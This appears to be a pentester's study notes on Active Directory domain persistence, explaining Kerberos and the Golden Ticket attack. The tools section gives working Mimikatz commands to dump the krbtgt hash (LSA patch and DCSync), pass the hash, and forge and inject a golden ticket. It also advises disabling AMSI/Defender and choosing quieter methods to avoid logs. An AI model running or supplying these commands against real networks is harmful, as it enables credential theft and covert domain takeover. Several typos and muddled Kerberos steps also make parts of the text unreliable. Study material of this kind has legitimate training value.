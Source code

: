 # AD - Domain Dominance / Persistence

## Basics

* Once we have DA - new persistence is possible => escalation to Enterprise Admin and attacks across trusts
* Abusing trusts within domain, across domains and forests
* NTLM hash vor Kerberos are RC4, DES (both old) or AES encrypted&#x20;
* Kerberos policy only checked when TGT is created
* DC validates user account only when TGT > 20min
* Service Ticket (TGS) PAC is optional and not very often used
  * Server LSASS sends PAC validation request to DC netlogon service (NRPC)
  * It runs as servce, PAC validation is optional (disabled)
  * If a service runs as Syste, it performs server signature verification on the PAC (Computer account long-term key)
  *

**How Kerberos works**

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

1. Password converted to NTLM hash. A Timestamp is encrypted and signed with the NTLM hash of the Users Password and sent to the KDC (AS-REQ)
2. The TGT (Ticket granting ticket) is generated and encrypted & signed with the NTLM Hash of krbtgt hash
3. The TGT is sent back to DC, because client can not decrypt it. Client Request a TGS (Ticket granting service). \
   The DC assumes whatever is inside the TGT, as long as it can be decrypted with krbtgt, it is assumed to be valid.\
   ❓Up to 20 Minutes the TGT is valid?
4. The TGS is returned with encryption of the target service/application service's NTLM hash
5. The Applicatoin Server decrypts the TGS because it is with its own service NTLM hash encrypted, and then decides whether user can access

## 🥇Golden Ticket Attack

### Description

* A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket
* Since user account validation is not done by DC until TGT is older than 20min, we use even deleted/revoked accounts
* The krbtgt user hash could be used to impersonate any user with any privilege from even a non-domain machine
* Password change (of krbtgt account)has no effect on this attack because previous hash will also be accpeted
* Abuse is in Step 3 and 4, where a valid TGT is generated&#x20;

### Requirements

* krbtgt Hash has to be known

### Tools

**Execute Mimikatz on DC to get krbtgt hash - required DA privs**\
Invoke-Mimikatz -command '"lsadump:lsa /patch" -computername dc-hostname

&#x20;With powershell session on dc:\
$sess = New-Session -Computername dc.local\
Disable AMSI/Defender in that session\
Exit\
Invoke-command -session $ses -filepath C:\invoke-mimikatz.ps1\
Enter-Pssession  -session $sess\
Invoke-Mimikatz -command '"lsadump:lsa /patch\




**To use the DCSync feature for getting krbtgt hash, execute the following command - require DA privs:**\
Invoke-Mimikatz -command '"lsadump:dcsync /user:dom\krbtgt"'

**Overpass the hash to start powershell**\
Invoke-Mimikatz -command '"sekurlsa:pth /user:svcadmin /domain:dom.local /ntlm:hash /run:powershell.exe"'



**Create a golden ticket when we have the krbtgt hash extracted from above** \
****Invoke-Mimikatz - command '"kerberos::golden /User:Administrator /domain:dom.local /sid:S-1-5-21-..... /krbtgt:hash.... id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

![](<.gitbook/assets/image (2).png>)

![](<.gitbook/assets/image (4).png>)

Use DCsync Attack / more silent in DC Logs\
\
\




